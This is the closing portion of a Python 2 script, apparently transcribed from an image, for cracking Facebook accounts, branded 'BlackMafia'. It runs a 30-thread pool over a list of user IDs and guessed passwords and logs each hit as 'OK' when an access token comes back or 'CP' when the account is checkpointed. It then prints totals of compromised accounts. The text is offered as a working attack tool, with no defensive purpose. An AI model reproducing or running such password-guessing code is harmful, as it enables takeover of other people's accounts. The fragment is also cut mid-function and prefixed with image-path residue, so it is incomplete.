                                            k=json.load(dt)

                                           if 'www.facebook.com' in k['error_msg']:

                                               print(S+'[CP] ♡ '+user+' ♡ '+ps6)

                                               cps.append(user+ps6)

                                           else:

                                               if 'access_token' in k:

                                                   print(G+'[OK] ♡ '+user+' ♡ '+ps6)

                                                   oks.append(user+ps6)

  except:

   pass

 p=ThreadPool(30)

 p.map(main, id)

 print

 print(S+50*'-')

 print

 print(S+'Process has been completed CP ID Open After 7 Days ')

 print(Y+'Total '+G+'OK'+S+'/'+P+'CP'+S+' = '+G+str(len(oks))+S+'/'+R+str(len(cps)))

 print(S+'BlackMafia')     

 print

 raw_input(R + 'Back')

 os.system('python2 SCARY DAD')

if __name__=='__main__':

    login()
